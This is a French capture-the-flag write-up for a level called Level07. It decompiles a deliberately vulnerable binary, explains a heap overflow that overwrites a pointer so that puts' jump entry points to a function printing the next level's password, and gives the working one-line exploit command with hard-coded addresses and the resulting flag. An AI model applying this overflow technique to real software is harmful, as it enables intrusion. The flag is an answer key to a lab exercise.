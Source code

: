 # Rapport CTF - [Level07]

### Observation :
En arrivant sur le level7 on trouve un exécutable nommé level7.\
Quand nous essayons de le lancer, on se rend compte qu'il prend 2 arguments et écris `~~`, puis return. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (080484F4) --------------------------------------------------------
int m()
{
  time_t v0; // eax

  v0 = time(0);
  return printf("%s - %d\n", c, v0);
}

//----- (08048521) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *v3; // eax
  void *v5; // [esp+18h] [ebp-8h]
  void *v6; // [esp+1Ch] [ebp-4h]

  v6 = malloc(8u);
  *(_DWORD *)v6 = 1;
  *((_DWORD *)v6 + 1) = malloc(8u);
  v5 = malloc(8u);
  *(_DWORD *)v5 = 2;
  *((_DWORD *)v5 + 1) = malloc(8u);
  strcpy(*((char **)v6 + 1), argv[1]);
  strcpy(*((char **)v5 + 1), argv[2]);
  v3 = fopen("/home/user/level8/.pass", "r");
  fgets(c, 68, v3);
  puts("~~");
  return 0;
}
```
On peut voir le file v3 qui open le .pass du level suivant, et une fonction `m()` qui nous permet de printf v3. \
On peut aussi voir des malloc comme dans le level précédant, nous allons donc sûrement devoir faire de même.

### Solution :
Il nous faut donc overflow le premier malloc `v6` sur `v5` avec 20 octets random 16 pour le malloc + 4 pour v5, puis ajouter l'adresse jump de puts (pour jump sur `m()`), ensuite dans la 2eme chaîne de caractère nous n'avons plus qu'à mettre l'adresse de notre fonction `m()`.

On fait la commande suivante pour obtenir le flag :
```sh
./level7 $(python -c "print ('a'*(16 + 4) + '\x08\x04\x99\x28'[::-1])") $(python -c "print '\x08\x04\x84\xf4'[::-1]")
```

### Resultat :
```sh
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
